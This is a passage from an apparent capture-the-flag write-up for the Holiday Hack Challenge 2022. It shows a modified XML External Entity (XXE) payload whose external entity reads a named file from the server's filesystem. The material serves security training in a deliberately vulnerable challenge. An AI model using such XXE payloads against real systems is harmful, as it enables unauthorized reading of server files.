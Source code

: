 Forward the newly modified XXE injection payload as the next http packet.

![image](/assets/img/holiday_hack_challenge_2022/d6d4112eab77326e0c13ffc484009000afdad3ef8c63dcc2c056cc1a8e672581.png)  

Picture shown contains a hint. `goldring_to_be_deleted.txt`

![image](/assets/img/holiday_hack_challenge_2022/6862728dd0aee42e0cbc8c9692d36059ab6496484517c0ddb3217f609df5a096.png)  

Performed XXE injection based on modified path.

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```
